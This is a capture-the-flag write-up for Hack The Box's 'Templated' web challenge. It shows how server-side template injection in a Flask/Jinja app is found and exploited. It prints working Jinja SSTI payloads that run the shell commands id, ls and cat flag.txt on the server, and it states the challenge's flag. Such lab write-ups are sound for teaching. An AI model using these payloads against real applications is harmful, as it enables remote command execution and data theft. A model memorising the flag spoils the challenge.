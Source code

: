 # Templated
#web 

### Challenge Author(s): clubby789

#### Description: Can you exploit this simple mistake? 
#### Difficulty: Easy

# Challenge

Firstly we have to find what is the application vulnerable to. From the landing page it is clear that the application is built using Flask/Jinja. Lets check whether there are any exploits available for this application. I am using **Exploit-DB** to search for exploit.

I have found that this application can be vulnerable to **SSTI**.

![](assets/images/exploit.png) 

Let's check whether the application is vulnerable to **SSTI**.

We can check this by appending {{4*4}} to the url.

![](assets/images/SSTI-proof.png)

The application is vulnerable to **SSTI**. 

So lets find how can we use this exploit.

After some research on the internet I found a blog in which there are some scripts for injection. So I am using those scripts.

![](assets/images/script.png)

Lets use the script, ```{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}```

This gives the following output.

![](assets/images/run1.png)

From the output it is clear that uid's are returned. so lets modify the command in the script ```{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}```

The output is as follows.
![](assets/images/run2.png)

We can see that the list of files and directories is returned. One file among those files is interesting for us, the file is **flag.txt**

Now lets read the contents of the flag by using ```{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}```

The output is the the required flag. 

![](assets/images/flag.png)

The flag is: ```HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}```


Resources used:

`https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/`


